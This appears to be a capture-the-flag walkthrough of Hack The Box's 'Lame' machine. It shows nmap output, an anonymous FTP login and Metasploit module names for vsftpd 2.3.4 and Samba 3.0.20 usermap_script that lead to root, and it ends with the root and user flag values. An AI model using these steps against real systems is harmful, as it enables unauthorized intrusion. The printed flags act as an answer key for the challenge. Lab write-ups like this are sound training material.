 <h1>HTB "LAME" Walkthrough 😒</h1>

<h3>Goals</h3>Get the user flag and the root flag.
<h3>Target IP</h3> 10.10.10.3

<h2>NMAP Scan</h2>
<pre>
sudo nmap -Pn -sV -sC -O --min-rate 10000 -p- 10.10.10.3
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-21 15:14 GMT
Nmap scan report for 10.10.10.3
Host is up (0.081s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|broadband router|remote management|printer|general purpose
Running (JUST GUESSING): Linux 2.4.X|2.6.X (92%), Arris embedded (92%), Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Dell iDRAC 6 (92%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.36 cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Supermicro IPMI BMC (Linux 2.6.24) (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h30m00s, deviation: 3h32m09s, median: 0s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-02-21T10:18:26-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 268.00 seconds
</pre>
After looking through our Nmap scan we see that we have ports 21,22,139,445, and 3632 open.

<h2>PORT 21</h2>
port 21(FTP) shows that we have an anonymous login available so lets check if we can get in this way.
<pre>
  ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> pwd
257 "/"
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
</pre>
We are able to login with the credentials anonymous/blank
Unfortunately we don't have access to anything.

Revisiting Port 21 we can see that we have vsFTPd 2.3.4, let's search Metasploit for any known vulnerabilities.
<pre>
  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
</pre>
Unfortunately this exploit doesn't work, lets check the other ports.

<h2>PORT 445</h2>
Port 445 is open and tells us that the machine is running Samba smbd 3.0.20-Debian, so let's see if this version has any known vulnerabilities.

Using Metasploit we find that this version of Samba is vulnerable
<pre>
  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
</pre>

This exploit WORKS!

now lets see who we are
<pre>
  whoami
  root
</pre>
We are root! Let's look for the flags now!
by changing directory to "/root" and using the "ls" command we can see that this is where the root.txt file is located.
by exploring the machine we find the user flag located in "/home/makis" and using the "ls" command we can see that this is where the user.txt file is located.
<h2>FLAGS</h2>
root flag:619648c877f0eb27d3c908492241ab8b

user flag:83ba5d5b88cd7efa7d763b8aae0dfa40
